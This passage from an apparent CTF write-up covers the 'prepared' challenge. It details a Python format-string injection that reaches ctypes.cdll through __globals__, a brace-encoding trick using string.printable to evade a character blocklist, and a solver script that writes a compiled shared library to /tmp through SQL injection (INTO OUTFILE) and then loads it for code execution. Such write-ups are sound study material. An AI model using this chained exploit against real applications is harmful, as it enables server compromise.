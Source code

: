 ```
{X.__init__.__globals__[os].sys.modules[ctypes].cdll[/path/to/cdll]}
```

The CDLL must be a compiled binary located somewhere on the server, and it can be created using the SQL injection mentioned above.

However, another problem arises. Since `/` is included in `MALICIOUS_CHARS`, we cannot use it directly inside the placeholder. To bypass this, we used double encoding. We noticed that you can access loaded modules using `{Y.__init__.__globals__[os].sys.modules}`. This includes the `string` module which includes `string.printable` that contains all the printable ASCII. This enabled us to express `{` and `}` using the placeholder. For example, if the query is the following:

```
{Y}{Y.__init__.__globals__[os].sys.modules[string].printable[90]}X{Y.__init__.__globals__[os].sys.modules[string].printable[92]}
```

After the first replacement, the result will be `{X}`. This can be used as a placeholder again, but the string inside `{}` can include any `MALICIOUS_CHARS`.


### Final Exploit

`lib.c` was written by my teammate.

```python:solver2.py
import requests
import os

# URL = "https://prepared-1-ec0d3306c2ec8a0f.chal.uoftctf.org/"
URL = "http://localhost:5000/"

os.system("gcc -c -O3 -fno-asynchronous-unwind-tables -fno-exceptions -fno-stack-protector -fPIC lib.c -o lib.o && gcc -shared -O3 -fno-asynchronous-unwind-tables -fno-exceptions -fno-stack-protector -Wl,--strip-all -znow -zrelro -o lib.so lib.o")

bytes = open("lib.so", "rb").read()
bytes_num = bytes.hex()

s = requests.session()
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

inj = f"""{{X}}' UNION SELECT 0x{bytes_num},'','' INTO OUTFILE '/tmp/lib.so' FIELDS ESCAPED BY ''#"""
for i, c in enumerate(MALICIOUS_CHARS):
    inj = inj.replace(c, "{X.MALICIOUS_CHARS[%d]}" % i)
data = {
    "username": "a",
    "password": inj
}
r = s.post(URL, data=data)
print(r.text)

inj = "{Y}{Y.__init__.__globals__[os].sys.modules[string].printable[90]}X{Y.__init__.__globals__[os].sys.modules[string].printable[92]}{Y.__init__.__globals__[os].sys.modules[string].printable[90]}X.__init__.__globals__[os].sys.modules[ctypes].cdll[{Y.MALICIOUS_CHARS[3]}tmp{Y.MALICIOUS_CHARS[3]}lib.so]{Y.__init__.__globals__[os].sys.modules[string].printable[92]}"

print(inj)
data = {
    "username": "a",
    "password": inj
}
r = s.post(URL, data=data)
print(r.text)
```

